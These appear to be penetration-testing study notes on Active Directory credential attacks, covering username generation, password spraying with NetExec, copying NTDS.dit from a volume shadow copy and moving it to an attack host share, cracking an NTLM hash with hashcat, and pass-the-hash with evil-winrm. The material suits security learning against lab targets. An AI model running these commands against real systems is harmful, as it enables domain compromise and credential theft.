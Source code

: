 |Username Convention|Practical Example for Jane Jill Doe|
|-------------------|-----------------------------------|
|firstinitiallastname|jdoe|
|firstinitialmiddleinitiallastname|jjdoe|
|firstnamelastname|janedoe|
|firstname.lastname|jane.doe|
|lastname.firstname|doe.jane|
|nickname|doedoehacksstuff|

> A tip from MrB3n: We can often find the email structure by Googling the domain name, i.e., “@inlanefreight.com” and get some valid emails. From there, we can use a script to scrape various social media sites and mashup potential valid usernames. Some organizations try to obfuscate their usernames to prevent spraying, so they may alias their username like a907 (or something similar) back to joe.smith.  
> Sometimes you can use google dorks to search for “inlanefreight.com filetype:pdf” and find some valid usernames in the PDF properties if they were generated using a graphics editor. From there, you may be able to discern the username structure and potentially write a small script to create many possible combinations and then spray to see if any come back valid.  

- `./username-anarchy -i names.txt` convert a list of real names into common usernames formats.
- `NetExec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt` dictionnary attack with NetExec

### Capturing NTDS.dit

NTDS.dit file is stored at %systemroot$/ntds on the domain controllers in a forest.  
This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information.  

#### Creating Shadow Copy of C:

We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location. 

- `PS C:\> vssadmin CREATE SHADOW /For=C:`
- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit` Copying NTDS.dit from the VSS
- `PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData` Transferring NTDS.dit to Attack Host

#### A Faster Method: Using cme to Capture NTDS.dit

- `NetExec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds` This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.

### Cracking Hashes & Gaining Credentials

- `sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt` Cracking a Single Hash with Hashcat
- `evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"` pass the hash with evil-winrm (more info about pass-the-hash attacks [here](../windows/pass-hash.md))
